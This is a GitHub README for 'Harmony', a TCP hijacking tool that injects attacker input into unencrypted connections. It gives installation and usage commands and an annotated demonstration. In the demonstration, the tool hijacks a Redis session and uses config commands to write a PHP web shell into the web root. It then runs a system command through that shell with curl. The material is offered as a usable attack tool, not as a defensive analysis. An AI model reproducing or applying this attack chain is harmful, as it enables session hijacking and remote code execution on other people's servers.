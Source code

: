 # Harmony
Harmony is a pretty simple general-purpose TCP hijacking tool that can be used to inject custom payloads to a TCP connection via piping it to the program or by manually typing it. It does not work against encrypted connections like HTTPS and SFTP, but it's useful against old or misconfigured services, IOT devices and other server software that for some reason just don't have encryption enabled.
```
   ▌▐    ▌▐     ██     ▒▒▒    ░░       ░░  ░     ░   ░      ░   ·       ·      
   ▌▐    ▌▐    █  █    ▒  ▒   ░ ░     ░ ░         ░    ░          ·   ·        
   ▌▐▀▀▀▀▌▐   █▄▄▄▄█   ▒▒▒    ░  ░   ░  ░ ░          ░      ░        ·         
   ▌▐    ▌▐  █      █  ▒  ▒   ░   ░ ░   ░        ░        ░        ·           
   ▌▐    ▌▐ █        █ ▒   ▒  ░    ░    ░   ░ ░      ░     ░     ·             
```
## Demonstration
```
 Client                               Hacker
█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
█                                    █                                                            █
█$nc 192.168.1.29 6479               █$python3 harmony.py --target 192.168.1.62:192.168.1.29:6379 █
█AUTH peter myPassword1sSecure       █Sniffing for a client PSH-ACK...                            █
█OK                                  █Connection hijacked, type away!                             █
█                                    █config set dir /var/www/html                                █
█                                    █OK                                                          █
█                                    █config set dbfilename test.php                              █
█                                    █OK                                                          █
█                                    █set tcprocks "<?php system($_GET['cmd']); ?>                █
█                                    █OK                                                          █
█                                    █save                                                        █
█                                    █Killing threads and exiting...                              █
█                                    █                                                            █
█                                    █$curl 192.168.1.29/test.php?cmd=id                          █
█                                    █uid=1000(peter) gid=1000(peter)                             █
█                                    █                                                            █
█                                    █$▌                                                          █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█
```
## Installation
```
git clone https://github.com/R00tendo/harmony
cd harmony
pip install -r requirements.txt
```

## Usage
`python3 harmony.py --target <target device IP>:<server IP>:<target server port>`

## Examples
```
python3 harmony.py --target 192.168.1.52:192.168.1.24:23
cat payload.bin |python3 harmony.py --target 192.168.1.39:192.168.1.53:21
```

## Learn what TCP hijacking is
<mediunm link here :)>
